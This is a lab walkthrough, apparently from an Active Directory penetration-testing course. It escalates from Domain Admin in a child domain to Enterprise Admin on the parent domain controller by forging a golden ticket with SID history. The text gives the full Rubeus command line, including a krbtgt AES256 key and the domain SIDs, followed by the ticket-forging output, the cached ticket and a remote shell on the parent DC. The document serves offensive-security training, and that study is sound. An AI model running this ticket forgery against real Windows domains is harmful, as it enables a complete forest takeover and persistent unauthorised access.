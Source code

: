 # Learning Objective 19 (Domain Privilege Escalation | Across Domain Trusts - `krbtgt` Key Abuse)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

---

## Attack Path Steps

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**
- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**

We already have the `krbtgt` hash from `dcorp-dc` (see *Learning Objective 08*).

Let's create a **golden ticket** (not an inter-realm TGT) and inject it. Due to the trust, the parent domain will trust the TGT.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:53:23 AM
[*] StartTime      : 2/17/2025 5:53:23 AM
[*] EndTime        : 2/17/2025 3:53:23 PM
[*] RenewTill      : 2/24/2025 5:53:23 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/17/2025 5:53:23 (local)
        End Time:   2/17/2025 15:53:23 (local)
        Renew Time: 2/24/2025 5:53:23 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

We can now access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
